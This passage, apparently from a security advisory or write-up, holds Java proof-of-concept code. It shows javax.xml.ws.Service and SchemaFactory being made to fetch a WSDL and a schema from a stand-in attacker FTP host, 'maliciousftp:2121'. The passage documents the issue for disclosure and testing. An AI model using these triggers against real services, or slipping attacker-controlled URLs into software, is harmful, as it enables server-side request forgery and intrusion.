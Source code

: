```
   e.printStackTrace();
  }
 }
}
```

## javax.xml.ws.Service Proof of Concept

```
import java.net.MalformedURLException;
import java.net.URL;

import javax.xml.namespace.QName;
import javax.xml.ws.Service;

public class CreateService {
 public static void main(String[] args) {
  String wsdlURL = "ftp://maliciousftp:2121/test?wsdl";
  String namespace = "http://foo.bar.com/webservice";
  String serviceName = "SomeService";
  QName serviceQN = new QName(namespace, serviceName);

  try {
   Service service = Service.create(new URL(wsdlURL), serviceQN);
  } catch (MalformedURLException e) {
   e.printStackTrace();
  }
 }

}
```

## javax.xml.validation.Schema Proof of Concept

```
import java.net.MalformedURLException;
import java.net.URL;

import javax.xml.validation.Schema;
import javax.xml.validation.SchemaFactory;

import org.xml.sax.SAXException;

public class NSchema {
 public static void main(String[] args) {
  SchemaFactory schemaFactory = 
 SchemaFactory.newInstance("http://www.w3.org/2001/XMLSchema");
  URL url;
  try {
   url = new URL("ftp://maliciousftp:2121/schema");
   try {
    Schema schemaGrammar = schemaFactory.newSchema(url);
   } catch (SAXException e) {
    e.printStackTrace();
   }
  } catch (MalformedURLException e) {
   e.printStackTrace();
  }
 }
}
```
